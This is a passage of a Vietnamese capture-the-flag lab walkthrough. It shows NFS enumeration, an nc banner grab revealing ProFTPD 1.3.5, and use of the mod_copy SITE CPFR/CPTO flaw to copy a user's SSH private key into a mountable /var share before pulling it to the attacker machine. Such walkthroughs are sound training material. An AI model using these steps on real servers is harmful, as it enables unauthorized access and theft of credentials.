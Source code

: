 ```
|_  /var        9204224.0  1836516.0  6877112.0  22%   16.0T        32000
| nfs-ls: Volume /var
|   access: Read Lookup NoModify NoExtend NoDelete NoExecute
| PERMISSION  UID  GID  SIZE  TIME                 FILENAME
| rwxr-xr-x   0    0    4096  2019-09-04T08:53:24  .
| rwxr-xr-x   0    0    4096  2019-09-04T12:27:33  ..
| rwxr-xr-x   0    0    4096  2019-09-04T12:09:49  backups
| rwxr-xr-x   0    0    4096  2019-09-04T10:37:44  cache
| rwxrwxrwx   0    0    4096  2019-09-04T08:43:56  crash
| rwxrwsr-x   0    50   4096  2016-04-12T20:14:23  local
| rwxrwxrwx   0    0    9     2019-09-04T08:41:33  lock
| rwxrwxr-x   0    108  4096  2019-09-04T10:37:44  log
| rwxr-xr-x   0    0    4096  2019-01-29T23:27:41  snap
| rwxr-xr-x   0    0    4096  2019-09-04T08:53:24  www
|_
```
## ftp, nc, exploitdb
Như đã biết ở trên có 1 port 21 sử dụng ftp. Bây giờ ta dựa vào hint của bài lab sử dụng **nc** để lấy banner mục tiêu nhắm đến version khai thác nó
```
┌──(kali㉿kali)-[~]
└─$ nc 10.10.169.181 21
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.169.181]
```
Sau khi có version truy cập [exploit-db](https://www.exploit-db.com/) xem có bao nhiêu bản khai thác

![image](https://github.com/user-attachments/assets/9481d603-498c-43ae-aa07-f34041520693)

Vì bài lab yêu cầu sử dụng **ProFtpd's mod_copy module** để khai thác nên ta sẽ áp dụng

Mô-đun mod_copy thực hiện các lệnh **SITE CPFR** và **SITE CPTO**, có thể được sử dụng để sao chép các tập tin/thư mục từ nơi này sang nơi khác trên máy chủ. Bất kỳ ứng dụng khách chưa được xác thực nào cũng có thể tận dụng các lệnh này để sao chép tệp từ bất kỳ phần nào của hệ thống tệp tới đích đã chọn.

Chúng ta biết rằng dịch vụ FTP đang chạy với tư cách là người dùng **Kenobi** (từ tệp trên phần chia sẻ) và **khóa ssh** được tạo cho người dùng đó. 

Bây giờ chúng ta sẽ sao chép **private key** của Kenobi bằng các lệnh **SITE CPFR** và **SITE CPTO**.

![image](https://github.com/user-attachments/assets/334207e2-5826-4e1b-a7c2-2501b84b3179)

Chúng ta biết rằng thư mục `/var` là một mount mà chúng ta có thể thấy từ các phân tích trên. Vì vậy, bây giờ chúng ta đã chuyển **private key** của Kenobi sang thư mục `/var/tmp`.

## mount
Sau khi đã chuyển về `/var/tmp` ta tiếp tục chuyển về máy attack của chúng ta

```
┌──(kali㉿kali)-[~]
└─$ sudo mount 10.10.169.181:/var .
[sudo] password for kali: 
   
┌──(kali㉿kali)-[~]
└─$ ls -la ./tmp 
total 28
drwxrwxrwt  6 root root 4096 Jul 29 03:43 .
drwxr-xr-x 14 root root 4096 Sep  4  2019 ..
-rw-r--r--  1 kali kali 1675 Jul 29 03:43 id_rsa
drwx------  3 root root 4096 Sep  4  2019 systemd-private-2408059707bc41329243d2fc9e613f1e-systemd-timesyncd.service-a5PktM                                                                                               
```